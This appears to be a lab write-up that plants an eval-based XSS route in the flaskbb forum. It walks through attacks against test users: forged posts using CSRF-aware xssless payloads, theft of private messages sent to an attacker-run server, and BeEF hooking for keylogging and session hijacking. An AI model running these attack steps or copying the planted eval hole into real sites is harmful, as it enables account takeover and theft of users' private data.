 Attacks
=======
Given a vulnerable application, we will try to develop some realistic attack scenarios. The focus is really not on triggering the XSS, but rather demonstrating ways to fully exploit it.
First we will setup a vulnerable application, then propose 3 different attacks :

    - execute actions on behalf of user
    - steal private information
    - Man In the Browser attack : interactive session hijacking, keylogger, browser exploits...
        
I. Setup the vulnerable application : a forum.
----------------------------------------------
In an attempt to be as realistic as possible, I decided to start with a real full-fledged application. I choose flaskbb[0], a forum developed in python using flask.

First step is to add our extra XSS "feature". I kept it simple by adding a new route to the project, where you can provide base64-encoded javascript to be executed. For example, executing "alert(1)" will look like this :

    localhost:8080/xss/YWxlcnQoMSkK

![Demo : alert(1)](https://raw.githubusercontent.com/centime/xss-paper/master/screenshots/alert.png)

The base64 is a handy way to avoid conflicts between our payloads and flask's route matching rules[A], and more important allows us to bypass flask's parameters sanitizing before template generation. It will also work around any protection from the browser. Implementation steps are provided here[1]

Bonus : flaskbb is kind enough to come in the dev version with a test function to populate it with dummy users, topics and posts !

II. Post a message on behalf of a user.
---------------------------------------
First, let's introduce two tools that we will use : 

    burp[2] : an http proxy, often used in web penetration tests because it is awesome. We will just scratch the surface here, using it to log our http traffic.
    xssless[3] : a python script to generate XSS payloads from burp's logs. Best part is that it takes care of crsf tokens (nonces) !

The procedure is as follow : 

    1) log in with a user we control.
    2) start burp's interception
    3) post a new message.
    4) export burp's logs
    5) list the csrf tokens
    6) run xssless
    7) modify the payload with our malicious message
    8) craft our exploit
    9) expose targeted users to our exploit

Steps 1-4 I won't describe.

Step 5 : In the requests that burp intercepted, we look for any parameter that might be a csrf token. It's usually obvious, and it certainly is here.

    echo 'csrf_token' > params

Step 6 : Xssless is nice because we don't even have to have a deep look into what's going on. We could probably skip some requests, but we know that repoducing step by step what we recorded will work. We just need to tell it which parameters to adapt dynamically.

    python2 ~/secu/xssless/xssless.py -s -p params ../burp-logs/post-topic.burp > post-topic.js

You can see the result here[4].

Step 7 : Now you can edit the payload to replace the title or content of the post you want. 

    grep content post-topic.js
        [...] &title=I+think&content=I%27ve+been+hacked+%3A%28 [...]

Just don't forget to url-encode your texts.

Step 8 : At this point we should run our payload through a js minifyer. Here we won't, for the sake of simplicity. To have a working exploit we need however the base64 of our payload, and to remove the script tag :
    
    grep -v script post-topic.js | base64 -w0 > post-topic.b64

Step 9 : Now, all we have to do is put it somewhere on internet and bring authenticated users of our forum to visit it.

    echo "<iframe src='http://localhost:8080/xss/$(cat payloads/post-topic.b64)'></iframe>" > malicious-website/post-topic.html
    cd malicious-website && python3 -m http.server 1337

Step 10 : profit !  
![Exploit : Post a message on behalf of a victim](https://raw.githubusercontent.com/centime/xss-paper/master/screenshots/post-topic.png)

III. Read a user's private conversations.
-----------------------------------------

So, here I hand-crafted an exploit[4]. This is classic javascript programming, so I won't explain in detail, but here is the gist :
    
    -request user/messages/inbox
    -parse the response to get received message. We get title, author, and a link to the content
    -request each of thoses new links
    -parse the response to get the content of each message
    -wrap it all in a serialized json, urlencode, and ship it in a GET request to our malicious website.

Of course, like most exploits, this code isn't a piece of art. But hey, it works.

    base64 -w0 read-private.js > read-private.b64

    echo "<iframe src='http://localhost:8080/xss/$(cat payloads/read-private.b64)'></iframe>" > malicious-website/read-private.html
    cd malicious-website && python3 -m http.server 1337

When someone (test2 in my case) visits localhost:1337/read-private.html, assuming he is already authenticated in the forum, our malicious server receives another request :

    "GET /%5B%0A%20%20%7B%0A%20%20%20%20%22author%22%3A%20%22test1%22%2C%0A%20%20%20%20%22title%22%3A%20%22%20Private%20conversation%20is%20private%20%22%2C%0A%20%20%20%20%22content%22%3A%20%22%20Or%20is%20it%20%3F%20%22%0A%20%20%7D%2C%0A%20%20%7B%0A%20%20%20%20%22author%22%3A%20%22test3%22%2C%0A%20%20%20%20%22title%22%3A%20%22%20Another%20%22%2C%0A%20%20%20%20%22content%22%3A%20%22%20%E2%80%9Cprivate%E2%80%9D%20conversation%20%22%0A%20%20%7D%2C%0A%20%20%7B%0A%20%20%20%20%22author%22%3A%20%22test3%22%2C%0A%20%20%20%20%22title%22%3A%20%22%20last%20%22%2C%0A%20%20%20%20%22content%22%3A%20%22%20of%20thoses%20%22%0A%20%20%7D%0A%5D HTTP/1.1" 404 -

    >> rcv="%5B%0...7D%0A%5D"
    >> python2 -c "from urllib import unquote; print unquote('$rcv');"
        [
          {
            "author": "test1",
            "title": " Private conversation is private ",
            "content": " Or is it ? "
          },
          {
            "author": "test3",
            "title": " Another ",
            "content": " “private” conversation "
          },
          {
            "author": "test3",
            "title": " last ",
            "content": " of thoses "
          }
        ]

![Exploit : reading private messages](https://raw.githubusercontent.com/centime/xss-paper/master/screenshots/read-private.png)


IV. Steal a user's password, and beyond ! Man In the Browser.
-------------------------------------------------------------

BeEF[6] : It means Browser Exploitation Framework, blablabla
    
Add a beef hook to our page :

    base64 -w0 add-hook.js > add-hook.b64

    echo "<iframe src='http://localhost:8080/xss/$(cat payloads/add-hook.b64)'></iframe>" > malicious-website/add-hook.html
    cd malicious-website && python3 -m http.server 1337

Start beef server, and wait for a visitor.

![BeEF : ui](https://raw.githubusercontent.com/centime/xss-paper/master/screenshots/beef-1.png)

Key logger
    
    Start the Man In the Browser attack to keep the target hooked when it follows links on the current domain.

![Demo : MItB](https://raw.githubusercontent.com/centime/xss-paper/master/screenshots/beef-MItB.png)

    All actions and inputs are recorded under the "logs" panel.

![BeEF : keylogger](https://raw.githubusercontent.com/centime/xss-paper/master/screenshots/beef-keylogger.png)
    
Interactive session hijacking

        Beef > target > use as proxy

![BeEF : use as proxy](https://raw.githubusercontent.com/centime/xss-paper/master/screenshots/beef-useproxy.png)

        chromium --temp-profile --proxy-server=localhost:6789

![BeEF : proxy](https://raw.githubusercontent.com/centime/xss-paper/master/screenshots/beef-proxy.png)

    Unfortunately, I couldn't manage to get it to work. The requests stay blocked somewhere between BeEF and the zombie... 


V. Going further.
-----------------
    xssless : worms !


NBs
---
[A] But here I learnt that b64 is "a-zA-Z0-9=" AND... "/".
    I can't figure out why, it seems so broken, but here it is : b64encode('t ?') == 'dCA/Cg=='
    So my url pattern may be broken by b64. Doesn't happen often though.


Refs
----
    [0] https://github.com/sh4nks/flaskbb
    [1] The following modifications have been made to flaskbb[0] :
            forum/views.py (l35-66)
                @forum.route("/xss/<payload>")
                def index(payload):
                [...]
                return( [...],
                    payload=payload)

            templates/forum/index.html (l4)
                <script>eval(atob("{{ payload }}"))</script>
        Also, because of a bug I removed thoses lines :
            templates/forum/topic.html
                {% if topic.first_post_id == post.id %}
                    {% if current_user|delete_topic(topic.first_post.user_id, topic.forum) %}
                    <a href="{{ url_for('forum.delete_topic', topic_id=topic.id, slug=topic.slug) }}">Delete</a> |
                    {% endif %}
                {% else %}
                    {% if current_user|delete_post(post.user_id, topic.forum) %}
                    <a href="{{ url_for('forum.delete_post', post_id=post.id) }}">Delete</a> |
                    {% endif %}
                {% endif %}
        and didn't investigate any further...
    [2] http://portswigger.net/burp/
    [3] https://github.com/mandatoryprogrammer/xssless
    [4] https://github.com/centime/xss-paper/blob/master/payloads/post-topic.js
    [5] https://github.com/centime/xss-paper/blob/master/payloads/read-private.js
    [6] http://beefproject.com/